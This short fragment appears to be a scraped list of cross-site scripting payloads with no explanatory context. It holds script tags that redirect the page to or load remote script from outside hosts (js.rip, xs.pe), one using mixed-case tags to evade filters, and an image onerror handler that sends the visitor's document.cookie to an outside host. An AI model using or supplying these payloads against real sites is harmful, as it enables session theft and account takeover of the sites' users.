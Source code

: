 <script>document.location.href='https://js.rip/20njahuoqt'</script>

<script src="https://js.rip/20njahuoqt"></script>

<sCRiPt sRC=//xs.pe/Xso></sCrIpT>



<img src="" οnerrοr=location.href="https://xs.pe/Xso?cookie="+document.cookie>
